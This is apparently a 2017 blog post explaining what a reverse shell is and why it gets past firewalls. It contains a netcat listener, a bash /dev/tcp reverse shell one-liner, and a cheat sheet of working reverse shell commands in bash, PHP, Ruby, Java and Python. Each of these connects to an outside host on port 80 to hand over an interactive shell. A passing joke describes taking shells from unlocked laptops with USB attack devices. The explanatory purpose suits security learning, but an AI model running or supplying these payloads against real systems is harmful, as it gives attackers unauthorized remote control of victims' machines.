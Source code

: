 ```yaml
---
layout: single
title: '2017-08-26, reverse shell'

---
```


# Whats a reverse shell? It’s that turtle that you jump on and it bounces off a wall and comes back at you right?
Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.
Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat. 
```
`nc -vlp 80`  vlp?  
-v, --verbose Set verbosity level (can be used several times);  
-l, --listen Bind and listen for incoming connections; 
-p, --source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
```
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash
```bash -i >& /dev/tcp/192.168.1.142/80 0>&1```
The command `bash -i >& `invokes bash with an "interactive" option. Then `/dev/tcp/192.168.1.142/7023` redirects that session to a tcp socket via device file. 
Finally `0>&1` Takes standard output, and connects it to standard input.
It turns out linux has built a /dev/tcp device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time. 
```
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)
$ echo > /dev/tcp/www.google.com/80
$ cat </dev/tcp/time.nist.gov/13
57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) 

http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip
```

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.
Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…
````
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
https://hakshop.com/products/bash-bunny
https://hakshop.com/products/usb-rubber-ducky-deluxe
```

Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things. 
```
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done
PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()
PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/
